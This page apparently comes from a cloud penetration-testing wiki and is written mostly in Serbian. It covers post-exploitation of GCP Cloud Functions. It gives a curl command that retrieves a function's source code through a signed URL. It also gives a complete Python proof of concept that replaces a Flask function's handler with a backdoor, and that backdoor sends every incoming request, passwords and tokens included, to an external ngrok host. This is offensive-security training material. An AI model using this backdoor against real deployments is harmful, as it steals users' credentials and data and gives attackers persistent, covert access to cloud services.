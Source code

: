 # GCP - Cloud Functions Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Functions

Pronađite neke informacije o Cloud Functions u:

{{#ref}}
../gcp-services/gcp-cloud-functions-enum.md
{{#endref}}

### `cloudfunctions.functions.sourceCodeGet`

Sa ovom dozvolom možete dobiti **potpisanu URL adresu za preuzimanje izvornog koda** Cloud Function-a:
```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
### Steal Cloud Function Requests

Ako Cloud Function upravlja osetljivim informacijama koje korisnici šalju (npr. lozinke ili tokeni), sa dovoljno privilegija mogli biste **modifikovati izvorni kod funkcije i eksfiltrirati** ove informacije.

Štaviše, Cloud Functions koje rade u python-u koriste **flask** za izlaganje web servera, ako nekako pronađete ranjivost za injekciju koda unutar flaks procesa (na primer, SSTI ranjivost), moguće je **prepisati handler funkcije** koji će primati HTTP zahteve za **malicioznu funkciju** koja može **eksfiltrirati zahtev** pre nego što ga prosledi legitimenom handleru.

Na primer, ovaj kod implementira napad:
```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
"""HTTP Cloud Function.
Args:
request (flask.Request): The request object.
<https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
Returns:
The response text, or any set of values that can be turned into a
Response object using `make_response`
<https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
"""

if not last:
return injection()
else:
if error:
return error
else:
return "Hello World!"



# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
try:
from urllib import request as urllib_request
req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
urllib_request.urlopen(req, timeout=0.1)
except Exception as e:
if not "read operation timed out" in str(e):
return str(e)

return ""

def new_http_view_func_wrapper(function, request):
def view_func(path):
try:
error = exfiltrate(request)
return function(request._get_current_object(), last=True, error=error)
except Exception as e:
return str(e)

return view_func
"""

def injection():
global new_function
try:
from flask import current_app as app
import flask
import os
import importlib
import sys

if os.access('/tmp', os.W_OK):
new_function_path = "/tmp/function.py"
with open(new_function_path, "w") as f:
f.write(new_function)
os.chmod(new_function_path, 0o777)

if not os.path.exists('/tmp/function.py'):
return "/tmp/function.py doesn't exists"

# Get relevant function names
handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (./main.py by default)
realpath = os.path.realpath(source_path) # Get full path

# Get the modules representations
spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
module_handler = importlib.util.module_from_spec(spec_handler)

spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
module_backdoor = importlib.util.module_from_spec(spec_backdoor)

# Load the modules inside the app context
with app.app_context():
spec_handler.loader.exec_module(module_handler)
spec_backdoor.loader.exec_module(module_backdoor)

# make the cloud funtion use as handler the new function
prev_handler = getattr(module_handler, handler_fname)
new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
return "Injection completed!"

except Exception as e:
return str(e)
```

